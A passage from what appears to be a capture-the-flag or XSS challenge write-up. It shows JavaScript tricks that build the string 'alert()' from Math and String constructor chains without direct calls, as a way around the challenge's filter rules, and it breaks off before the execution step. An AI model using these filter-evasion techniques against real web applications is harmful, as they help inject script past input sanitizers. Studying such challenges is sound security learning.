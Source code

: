 ``` js

          if (newPath.length >= 10) return

          if (!visited.has(value)) {
            visited.add(value)
            queue.push([newPath, value])
          }
        }
      }
    }
  }
}
console.log(findTargetNumber(5, '('.charCodeAt(0)))
// ['Math.floor', 'Math.log2', 'Math.cosh', 'Math.clz32']
```

When we construct `alert`, the return value of the last push operation will be 5. Since the ASCII code for `(` is 40, we can obtain 40 with the following expression: `Math.floor(Math.log2(Math.cosh(Math.clz32(5))))`.

By concatenating it with the previous code, we can obtain `(`:

``` js
Math.abs.name.constructor.fromCharCode(Math.floor(Math.log2(Math.cosh(Math.clz32(5)))))
```

Putting it all together, we can form an array with the desired characters.

## 3. How to join the array?

To join the array elements together, we need to find an empty string to transform the array into the desired string format.

Initially, my idea was to generate a whitespace character and use `" ".trim()`. However, this approach would involve function calls like `fn().trim()`, which violates the rules specified in the challenge.

Fortunately, there is another way to invoke functions: `String.prototype.trim.call(" ")`. This method allows us to obtain an empty string.

We can utilize the method we used earlier to find `(` to find the whitespace character. Finally, we can add this sequence of function calls to achieve the desired result. Here's an example:

``` js
// Assumed we already had the array
var arr = ['a','l','e','r','t','(',')']
console.log(
  arr.join(Math.abs.name.constructor.prototype.trim.call(Math.abs.name.constructor.fromCharCode(32)))
)
// alert()
```

## 4. How to execute without using eval?
